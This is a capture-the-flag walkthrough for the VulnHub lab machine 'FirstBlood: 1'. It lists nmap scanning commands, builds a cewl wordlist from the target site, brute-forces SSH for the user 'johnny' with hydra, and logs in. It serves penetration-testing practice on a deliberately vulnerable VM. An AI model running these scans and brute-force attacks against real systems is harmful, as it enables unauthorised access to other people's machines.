








:::::::::::::: page
# FirstBlood: 1 {#firstblood-1 .title}

\

## 

## FirstBlood: 1

- **[FirstBlood: 1]{style="color:#8ff0a4;"}** :-

<!-- -->

- Download the machine :
  <https://www.vulnhub.com/entry/firstblood-1,564/>

- Now extract the file .
- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#33d17a;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::

- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.219
:::

- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.219
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.219
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.219
:::

1.  [Web Enumeration]{style="color:#33d17a;"} :

- IP visit in browser : <http://192.168.2.219>
  <http://192.168.2.219/rambo.html> <http://192.168.2.219/robots.txt>

<http://192.168.2.219/johnnyrambo/>

- First generate the wordlist :

::: codebox
    cewl -w words.txt -d 1 -m 5 http://192.168.2.219/johnnyrambo/
:::

- Check size :

::: codebox
    wc -l words.txt
:::

- Then read it :

::: codebox
    cat words.txt
:::

- Now access :

::: codebox
    http://192.168.2.219/johnnyrambo/ssh.html
:::

- The page already told you the username is johnny.

<!-- -->

- Use hydra command :

::: codebox
    hydra -l johnny -P words.txt -v ssh://192.168.2.219 -s 60022 -t 4
:::

- 

- After Hydra finds the password, login with SSH :

::: codebox
    ssh johnny@192.168.2.219 -p 60022
:::

 Successful to make a SSH Connection .
::::::::::::::
